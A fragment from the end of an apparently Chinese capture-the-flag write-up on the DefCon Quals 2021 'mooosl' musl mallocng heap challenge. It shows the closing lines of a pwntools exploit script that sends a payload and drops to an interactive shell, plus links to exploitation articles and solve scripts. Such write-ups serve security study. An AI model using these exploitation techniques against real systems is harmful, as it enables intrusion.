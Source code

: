         io.sendlineafter("option: ",str(1))
        io.sendlineafter("key size: ",str(1))
        io.sendafter("key content: ",'f')
        io.sendlineafter("value size: ",str(0x80))
        io.sendline(payload)

        io.interactive()


## 参考

[借助DefCon Quals 2021的mooosl学习musl mallocng（漏洞利用篇）](https://www.anquanke.com/post/id/241104#h2-1)

[https://github.com/Kyle-Kyle/blog/blob/ce96da2540e940a53459e57d615de78cda5208f7/writeups/defcon21_mooosl/solve.py](https://github.com/Kyle-Kyle/blog/blob/ce96da2540e940a53459e57d615de78cda5208f7/writeups/defcon21_mooosl/solve.py)

[https://github.com/cscosu/ctf-writeups/tree/master/2021/def_con_quals/mooosl](https://github.com/cscosu/ctf-writeups/tree/master/2021/def_con_quals/mooosl)